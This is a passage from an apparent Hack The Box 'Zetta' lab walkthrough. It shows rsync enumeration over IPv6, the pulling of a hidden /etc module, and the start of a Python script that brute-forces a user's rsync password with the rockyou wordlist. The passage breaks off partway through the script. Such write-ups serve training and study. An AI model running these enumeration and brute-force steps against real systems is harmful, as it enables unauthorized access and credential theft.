 {% endhighlight %}

<p>Oh ho! We have an rsync service available on IPv6 where it was not on IPv4. What happens if we poke around there.</p>

<p align="center">
<img src="{{ '/assets/htb-zetta/user-rsyncnmap.PNG' | relative_url }}">
</p>

<p>This is looking more promising, excellent. Unfortunately trying to enumerate all of the listed modules leads us to access denied. At this point I started scratching my head a bit until I realized that the modules were all the standard directories in a Unix machine, however /etc was missing... Hum, let's see if that is just a coincidence.</p>

<p align="center">
<img src="{{ '/assets/htb-zetta/user-rsyncetc.PNG' | relative_url }}">
</p>

<p>Bingo! Ok let's see if we can grab a copy of /etc and sync it locally for further analysis.</p>

<p align="center">
<img src="{{ '/assets/htb-zetta/user-rsyncetcsync.PNG' | relative_url }}">
</p>

<p>Once we have the files locally we take a look at the more obvious spots - passwd, ftpusers, backups, but it is only once we look at the rsyncd.conf file do we really notice something interesting.</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Zetta/etc# cat rsyncd.conf | tail -n 10
[home_roy]
	path = /home/roy
	read only = no
	# Authenticate user for security reasons.
	uid = roy
	gid = roy
	auth users = roy
	secrets file = /etc/rsyncd.secrets
	# Hide home module so that no one tries to access it.
	list = false
{% endhighlight %}

<p>Another hidden directory! We also have the user provided on top of it, excellent. Unfortunately, we don't have the password and trying to access /home/roy results in access denied.</p>

<p>With the username however, let's see if we can script up a simple bruteforce to iterate through the rockyou password list. Who knows, we might get lucky.</p>

{% highlight python %}
#!/usr/bin/python
# -*- coding: utf-8 -*-

import sys
import os
import subprocess

def bruteforce(password):
    os.environ["RSYNC_PASSWORD"] = password
    try:
        p1 = subprocess.run('rsync -vazh rsync://roy@[dead:beef::250:56ff:fea2:4d93]/home_roy --port 8730',check=True, shell=True,stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
        if p1.returncode == 0:
            print("PASSWORD Found! roy/" + password)